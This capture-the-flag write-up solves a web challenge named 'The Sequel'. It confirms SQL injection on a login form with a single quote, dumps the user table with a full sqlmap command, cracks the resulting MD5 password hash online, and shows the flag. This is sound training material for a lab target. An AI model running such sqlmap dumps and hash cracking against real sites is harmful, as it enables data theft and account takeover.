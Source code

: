 ## The Sequel

Pretty simple one actually.  
It is a login form, and my first instinct is always to try sql injection.  
I tried single quotes(') as username and it gave an error saying SQL syntax is wrong.  
This means that the login form was vulnerable to SQL injection.  

We can use `sqlmap` to exploit it.

> $ sqlmap --dump --form -u "https://web.ctf.devclub.in/web/1/login.php"

This command will give you a table with

```
+----------+----------+-----------+----------------------------------+
| lastname | username | firstname | password                         |
+----------+----------+-----------+----------------------------------+
| Singh    | as1605   | Aditya    | 386b8fe06ad1d01e027de7270f48822d |
+----------+----------+-----------+----------------------------------+

```

The password was hashed and it looked awfully lot like md5, so I put in md5decrypt.net and it decrypted it to be `wildspirit`.  
I entered the details  and got the flag
> CTF{7ql_1s_n0t_3asy_8_all}